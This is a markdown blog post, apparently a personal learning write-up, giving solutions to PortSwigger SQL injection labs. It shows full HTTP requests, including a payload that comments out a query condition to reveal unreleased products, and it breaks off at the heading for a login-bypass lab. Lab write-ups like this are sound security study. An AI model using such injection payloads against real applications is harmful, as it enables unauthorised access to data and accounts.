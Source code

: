 ```yaml
---
layout: post
title:  SQL Injection Labs
date:   2023-10-11 03:49:10 +0100
categories: sql-injection
post_id: 5
---
```


What follows is solution to various sql injection labs. The labs are from [Portswigger](https://portswigger.net) and [PentesterLab](https://pentesterlab.com).

## Portswigger Labs

### [Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Lab 1 Task

***This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:***

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

***To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.***

### Lab 1 Solution

Initial request to the product category endpoint:

```http
GET /filter?category=Gifts HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The image below shows the response to the above request:

![lab1](./2023-10-11-sql-injection-labs-assets/2023-10-12_16-09_normal_response.png)

We can see from the above response only 3 products are displayed. To solve the lab we will attempt to comment out the `AND released = 1` part of the query and see if we can get the unreleased products. To do this we will use the `--` comment syntax. The `--` syntax comments out everything after it. So we will send the following request:

```http
GET /filter?category=Gifts'+--+a HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

The image below shows the response to the above request:

![lab1](./2023-10-11-sql-injection-labs-assets/2023-10-12_17-27_response_with_injection.png)

We can see that 4 products are now displayed, which means we have successfully injected the query. And that's it for lab 1 we have successfully view an unreleased product.

![lab1](2023-10-11-sql-injection-labs-assets/2023-10-12_17-31_lab1_solved.png)

### [Lab 2: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Lab 2 Task

***This lab contains a SQL injection vulnerability in the login function.***

***To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.***

### Lab 2 Solution
